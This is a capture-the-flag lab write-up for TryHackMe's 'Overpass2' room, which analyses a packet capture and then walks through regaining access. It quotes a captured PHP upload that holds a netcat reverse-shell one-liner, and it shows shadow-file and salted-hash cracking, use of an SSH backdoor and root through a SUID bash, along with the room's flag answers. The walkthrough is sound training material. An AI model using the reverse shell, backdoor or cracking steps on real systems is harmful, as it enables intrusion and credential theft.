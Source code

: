 # Overpass2 - Linux - Easy

## Task-1

### What was the URL of the page they used to upload a reverse shell?

Checking for a POST request would do the trick.

`/development/`

### What payload did the attacker use to gain access?

Checking the same POST request dumping all the ascii text from the request can make this spotting a bit easier.

```
)n)ºHEô
.@@VTÀ¨ªÀ¨ªºvPÃró:
'ö©ó
Â¦+5P,ÆPOST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```

### What password did the attacker use to privesc?

Checking the above payload for reverse shell we can know that port used is **4242**. Attacker IP is **192.168.170.145** and the machine that was attacked has IP **192.168.170.159**. Filtering packets using the following info in wireshark will make it bit easier to spot.

`ip.src==192.168.170.159 && ip.dst==192.168.170.145 && tcp.port==4242`

Just follow the first TCP stream now and we get the following:

`whenevernoteartinstant`

### How did the attacker establish persistence?

Checking the TCP stream we got in above it clearly mentions using git clone.

`git clone https://github.com/NinjaJc01/ssh-backdoor`

### Using the fasttrack wordlist, how many of the system passwords were crackable?

In the TCP stream we are following we also get to see the */etc/shadow* file contents. Just copy paste them into a file and run **john** on the file.

*Well the answer is **4**.*


## Task-2

### What's the default hash for the backdoor?

Just check the var in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### What's the hardcoded salt for the backdoor?

Simply check the function call with some static value

`1c362db832f3f864c8c2fe05f2002a05`

### What was the hash that the attacker used? - go back to the PCAP for this!

Can be found in the TCP stream for nc. Suplied to backdoor using *./backdoor -a <some_value>*

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Using hashcat here might help. It uses module 1710.so for this type of cracking where we have salted hash. we have both our hash and salt. Making a file hc with the following contents:

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05`

Here it is written in form of *hash*:*salt* as per needed by hashcat. Using the following command to run hashcat and crack it.

`hashcat -m 1710 -o ch htc rockyou.txt` 

where **htc** is the file with hash:salt and **ch** is the output file after cracking is done. Once done just check the **ch** file for cracked hash value.

`november16`


## Task-3

### The attacker defaced the website. What message did they leave as a heading? 

`H4ack3d by CooctusClan`

### Using the information you've found previously, hack your way back in!

Let's start with nmap scan for the machine.

`nmap 10.10.222.177 -oN nmap_scan`

It shows 3 ports are open: **22**, **80** and **2222**. Through our wireshark packet capture we know that 2222 is a ssh port being used by the **ssh-backdoor**. Let's just use that backdoor to get in.

`ssh james@10.10.222.117 -p 2222`

Using password `november16` the one we got from cracking that hash, we got ourselves in.

### User.txt

This is easy... once we get in: `cat /home/james/user.txt`

`thm{d119b4fa8c497ddb0525f7ad200e6567}`


### Root.txt

Checked using find command for any suid binaries I could exploit it was in vain. Reading the hint on tryhackme gave a bit of direction. All I needed to do was `ls -al`

There it is `.suid_bash`. Executing it by giving *-p* we get ourselves root. Lastly checking the `/root/root.txt` file we get ourselves the final flag for the machine.

`thm{d53b2684f169360bb9606c333873144d}`

